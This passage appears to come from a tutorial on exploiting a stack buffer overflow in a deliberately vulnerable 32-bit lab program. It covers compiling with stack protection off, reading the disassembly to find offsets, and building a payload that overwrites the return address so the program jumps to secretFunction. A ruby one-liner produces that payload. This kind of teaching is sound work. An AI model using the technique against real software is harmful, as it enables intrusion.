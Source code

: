 ```
gcc vuln.c -o vuln -fno-stack-protector -m32
```



```-fno-stack-protector``` disabled the stack protection. Smashing the stack is now allowed. -m32 made sure that the compiled binary is 32 bit. You may need to install some additional libraries to compile 32 bit binaries on 64 bit machines. You can download the binary generated on my machine [here](Resource/3e3247d839bdf436cce71b176eae9c67_vuln).

You can now run it using ./vuln.
```
Enter some text:
HackIt!
You entered: HackIt!
```

Let’s begin to exploit the binary. First of all we would like to see the disassembly of the binary. For that we’ll use ```objdump```

```
objdump -d vuln
```

Running this we would get the entire disasembly. Let’s focus on the parts that we are interested in. (Note however that your output may vary)

![](Resource/3e3247d839bdf436cce71b176eae9c67_3.png)

##  Inferences:

1. The address of ```secretFunction``` is ```0804849d``` in hex.
```
 0804849d <secretFunction>:
```

2. 38 in hex or 56 in decimal bytes are reserved for the local variables of echo function.
```
 80484c0:    83 ec 38    sub         $0x38,%esp
 ```

3. The address of ```buffer``` starts 1c in hex or 28 in decimal bytes before %ebp. This means that 28 bytes are reserved for buffer even though we asked for 20 bytes.
```
 80484cf:    8d 45 e4    lea         -0x1c(%ebp),%eax
```

## Designing payload:

Now we know that 28 bytes are reserved for ```buffer```, it is right next to ```%ebp```(the Base pointer of the ```main``` function). Hence the next 4 bytes will store that ```%ebp``` and the next 4 bytes will store the return address(the address that ```%eip``` is going to jump to after it completes the function). Now it is pretty obvious how our payload would look like. The first 28+4=32 bytes would be any random characters and the next 4 bytes will be the address of the ```secretFunction```.

Note: Registers are 4 bytes or 32 bits as the binary is compiled for a 32 bit system.

The address of the ```secretFunction``` is ```0804849d``` in hex. Now depending on whether our machine is little-endian or big-endian we need to decide the proper format of the address to be put. For a little-endian machine we need to put the bytes in the reverse order. i.e. ```9d 84 04 08```. The following scripts generate such payloads on the terminal. Use whichever language you prefer to:
```
ruby -e 'print "a"*32 + "\x9d\x84\x04\x08"'
